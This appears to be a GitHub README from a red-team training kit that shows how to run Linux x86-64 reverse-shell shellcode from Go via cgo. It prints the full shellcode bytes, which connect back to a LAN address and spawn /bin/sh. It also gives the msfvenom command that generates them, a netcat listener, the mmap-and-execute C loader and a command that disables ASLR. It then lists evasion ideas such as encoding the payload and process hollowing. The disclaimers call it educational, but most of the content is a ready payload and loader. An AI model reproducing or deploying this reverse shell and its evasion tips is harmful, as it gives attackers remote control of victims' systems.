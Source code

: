 # 🛠️ Reverse Shell Shellcode Execution in Go – Educational Example

> **⚠️ Warning**: This code is **for educational purposes only** and should **only be used in authorized, controlled environments**. Unauthorized use is illegal and unethical.

---

## 📌 Overview

This project demonstrates how to **execute raw x86-64 assembly shellcode** from a **Go program** using `cgo` to interface with native C code. The shellcode establishes a **reverse TCP shell** back to a specified attacker-controlled IP and port.

This example is ideal for learning:
- How shellcode works at a low level.
- Memory allocation and execution techniques.
- Integration of Go with native C code via `cgo`.
- Core concepts in offensive security and post-exploitation.

---

## 🔧 Shellcode Functionality

The included shellcode performs the following actions:

1. ✅ Creates a TCP socket using `socket()`.
2. ✅ Connects back to `192.168.1.98:5555` using `connect()`.
3. ✅ Redirects `stdin`, `stdout`, and `stderr` to the socket using `dup2()` (x3).
4. ✅ Executes `/bin/sh` via `execve()`, giving the attacker an interactive shell.

👉 This is a classic **reverse shell payload**, commonly used in penetration testing and exploit development.

---

## 🧪 Shellcode Generation

The shellcode was generated using **Metasploit's `msfvenom`**:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.98 LPORT=5555 -f c -o shellcode_linux.txt
```

- Platform: Linux x86_64
- Payload: linux/x64/shell_reverse_tcp
- Target IP: 192.168.1.98
- Target Port: 5555



```c
unsigned char shellcode[] = 
"\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2"
"\xb0\x29\x0f\x05\x48\x89\xc7\x52\x66\x68\x15\xB3"
"\x68\xC0\xA8\x01\x62\x66\x68\x02\x00\x89\xe6\xb0"
"\x2a\x0f\x05\x48\x89\xc7\xb0\x21\x0f\x05\x48\x89"
"\xc7\xb0\x21\xb6\x01\x0f\x05\x48\x89\xc7\xb0\x21"
"\xb6\x02\x0f\x05\x48\x31\xc0\x48\xbb\x2f\x62\x69"
"\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x48\x31\xf6"
"\x48\x31\xd2\xb0\x3b\x0f\x05";
```

## 🧰 Requirements
- Go (version 1.18 or higher)
- C compiler (e.g., gcc)
- Linux x86_64 system
- Ability to allocate executable memory (mmap with PROT_EXEC)
- Disable ASLR (optional, for reliability in testing):

echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

## 🚀 How to Use (Controlled Environment)

1. Set up the listener (attacker machine)
On your machine (or at 192.168.1.98), start a netcat listener:

```bash
nc -lvnp 5555
```

2. Compile and run the Go program

```bash
go run shell.go
```
⚠️ If you get errors (e.g., permission denied), ensure your system allows executable memory allocation. Some security modules (SELinux, AppArmor) may block this. 

3. Get the reverse shell
If successful, you'll receive a shell on your netcat listener:

```bash

$ nc -lvnp 5555
listening on [any] 5555 ...
connect to [192.168.1.98] from (UNKNOWN) [192.168.1.XX] 34567
whoami
victim-user
pwd
/tmp
```
## 💡 Code Breakdown
Using cgo to Call C from Go
The Go file uses import "C" to embed C code. The function ejecutarShellcode():

Allocates executable memory using mmap.
Copies the shellcode into that memory.
Casts the memory to a function pointer and executes it.
Memory Execution Flow

```c
⌄
void *exec_mem = mmap(0, shellcode_size, PROT_READ | PROT_WRITE | PROT_EXEC, 
                      MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
if (exec_mem == MAP_FAILED) {
    perror("mmap");
    return;
}

memcpy(exec_mem, shellcode, shellcode_size);

void (*ret)() = (void(*)())exec_mem;
ret();  // Execute shellcode
```
This mimics real-world code injection and shellcode stagers used in exploits.

## 🛡️ Detection & Evasion (Advanced Notes)
- Static Detection: The raw hex string is easily detectable by AV/EDR and YARA rules.
- Dynamic Behavior: Sequence of syscalls (socket, connect, execve) is highly suspicious.
- Evasion Ideas (for learning):
- Encrypt or encode the shellcode (e.g., XOR, Base64).
- Use indirect syscalls or mmap + mprotect for stealth.
- Reflective loading or process hollowing (Windows equivalent concepts).

## 📚 Learning Objectives

✅ Understand how shellcode works
✅ Learn memory execution techniques
✅ Practice safe exploitation in labs
✅ Explore Go’s capabilities in offensive tools

## ❌ Legal & Ethical Notice
This code must never be used:

- On systems you don’t own or have explicit permission to test.
- In production environments without authorization.
- For malicious purposes.
- Use only in labs, CTFs, or authorized penetration tests.

## 🙌 Feedback & Contributions
Have ideas to improve this example? Want to add encoded shellcode, stageless payloads, or detection bypasses? Contributions are welcome!

## 🔥 Happy hacking (the right way)!
— LazyOwn Red Team Training Kit 


---

✅ **Links**  

[+] CGOblin the big brother of gomulti_loader: https://github.com/grisuno/cgoblin
[+] Shorts: https://www.youtube.com/shorts/kPZvVV_RNIE
[+] Deepwiki: https://deepwiki.com/grisuno/gomulti_loader
[+] gomulti_loader the little brother of CGOblin: https://github.com/grisuno/gomulti_loader
[+] Deepwiki: https://deepwiki.com/grisuno/cgoblin
[+] Github: https://github.com/grisuno/LazyOwn
[+] Web: https://grisuno.github.io/LazyOwn/
[+] Reddit: https://www.reddit.com/r/LazyOwn/
[+] Facebook: https://web.facebook.com/profile.php?id=61560596232150
[+] HackTheBox: https://app.hackthebox.com/teams/overview/6429
[+] Grisun0: https://app.hackthebox.com/users/1998024
[+] Patreon: https://patreon.com/LazyOwn
[↙] Download: https://github.com/grisuno/LazyOwn/archive/refs/tags/release/0.2.48.tar.gz

![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54) ![Shell Script](https://img.shields.io/badge/shell_script-%23121011.svg?style=for-the-badge&logo=gnu-bash&logoColor=white) ![Flask](https://img.shields.io/badge/flask-%23000.svg?style=for-the-badge&logo=flask&logoColor=white) [![License: GPL v3](https://img.shields.io/badge/License-GPLv3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/Y8Y2Z73AV)
